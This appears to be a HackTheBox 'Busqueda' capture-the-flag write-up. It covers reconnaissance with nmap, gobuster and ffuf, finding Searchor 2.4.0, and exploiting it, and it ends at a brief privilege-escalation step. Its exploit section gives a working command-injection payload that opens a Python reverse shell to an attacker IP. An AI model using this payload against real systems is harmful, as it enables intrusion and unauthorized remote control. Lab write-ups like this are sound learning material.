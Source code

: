 ```yaml
---
layout: post
title: HackTheBox Busqueda
subtitle: Busqueda WriteUp
author: g3rm
categories: 
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
  - Linux
sidebar:
---
```



## Summary
![](/assets/images/posts/2025-03-21-Busqueda/a73dbffe4ae24d783de043ae29185d39_MD5.jpeg)
## Target - 10.129.228.217
### Nmap
```bash
nmap -sC -sV -Pn -p- -oN Busqueda 10.129.228.217
```
![](/assets/images/posts/2025-03-21-Busqueda/b3817d553dd4d22d16cf8b0efa0f03c2_MD5.jpeg)
### WEB
```bash
# host 등록
echo "10.129.228.217 searcher.htb" | sudo tee -a /etc/hosts

# dir fuzz
gobuster dir -u searcher.htb -w /usr/share/wordlists/dirb/common.txt

# subdomain fuzz
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.searcher.htb" -u http://searcher.htb -fc 302

# opensource version
searchor 2.4.0
```
![](/assets/images/posts/2025-03-21-Busqueda/ae88064ccb2df41d3a185b7b1dd63698_MD5.jpeg)
![](/assets/images/posts/2025-03-21-Busqueda/d527baf6f626258ec6a5aefbdfb75d0f_MD5.jpeg)

### Searchor 2.4.0 Exploit
```bash
# https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection
'),exec('import+socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.36",8000));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")')#
```
![](assets/images/posts/2025-03-21-Busqueda/116033061580fae80a50f281c20e5c3c_MD5.jpeg)

### Privilege Escalator
```bash
# upgrade tty
python3 -c 'import pty; pty.spawn("/bin/bash")'

find / -group svc -exec ls -ldb {} \; 2>/dev/null
```
![](assets/images/posts/2025-03-21-Busqueda/9fbef62124fd4ea70270d25a9e5c24cf_MD5.jpeg)



